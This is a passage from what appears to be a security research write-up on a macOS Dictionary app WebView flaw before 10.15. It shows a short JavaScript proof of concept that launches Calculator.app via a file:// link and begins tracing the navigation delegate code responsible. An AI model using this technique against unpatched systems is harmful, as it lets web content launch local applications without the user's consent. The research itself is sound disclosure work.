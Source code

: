 In the WebView of Dictionary app (before 10.15), these few lines of javascript bring you a neat calculator.

```js
a = document.createElement('a');
a.href = 'file:///Applications/Calculator.app';
a.click()
```

<p class="full"><img src="/img/2020-08-06-x-site-escape-part/calc.png"></p>

Wait, how could this even happen?

This delegate method handles navigation for the WebView:

`Dictionary -[DictionaryController webView:decidePolicyForNavigationAction:request:frame:decisionListener:]:`

```objc
element = objc_msgSend(action, "objectForKey:", WebActionElementKey);
linkURL = objc_msgSend(element, "objectForKey:", WebElementLinkURLKey);
frameName = objc_msgSend(frame, "name");
```
